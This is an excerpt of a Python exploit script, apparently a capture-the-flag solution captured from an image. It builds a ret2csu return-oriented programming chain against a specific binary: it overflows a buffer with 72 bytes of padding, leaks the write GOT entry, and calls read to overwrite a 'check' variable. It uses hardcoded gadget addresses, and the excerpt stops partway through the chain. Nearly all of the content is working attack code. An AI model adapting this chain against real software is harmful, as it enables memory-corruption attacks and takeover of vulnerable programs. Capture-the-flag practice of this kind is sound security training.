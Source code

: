 ```
csu_pops = p64(0x00400b4a)
csu_movs = p64(0x00400b30)
init = p64(0x601dc0)
write_got_plt = p64(0x601fb0)
hidden_func = p64(0x00400814)
main = p64(0x00400909)
check = p64(0x00602050)
read_plt = p64(0x004006a0)
pop_rsi = p64(0x0000000000400b51) # : pop rsi ; pop r15 ; ret
empty = p64(0x602280)

print(target.recvuntil(b'Any ideas where to search'))

payload = b'1' * 0xf

target.sendline(payload)

print(target.recvuntil(b'Give up'))

target.sendline(b'42')

print(target.recvuntil(b'Do you think this is the secret password?'))

padding = b'a' * 72
payload = padding


payload += csu_pops
payload += p64(0) #rbx
payload += p64(1) # rbp
payload += init #r12 gets
payload += p64(1) #r13 goes to edi
payload += write_got_plt #r14, goes to rsi
payload += p64(0x8) # r15, goes to rdx

payload += csu_movs
payload += b'a' * 8 #for the rsp+8
payload += b'a' * 8 * 6 #for the pops


payload += write_plt


#check has to be set to 0 or it won't work.

payload += csu_pops
payload += p64(0) #rbx
payload += p64(1) # rbp
payload += init #r12 gets called
payload += p64(0) #r13 goes to edi
payload += check #r14, goes to rsi
payload += p64(0x8) # r15, goes to rdx

payload += csu_movs
payload += b'a' * 8 #for the rsp+8
payload += b'a' * 8 * 6 #for the pops
payload += read_plt


#Adding this plus the timeout later fixes my I/O problem

payload += pop_rsi
payload += empty
```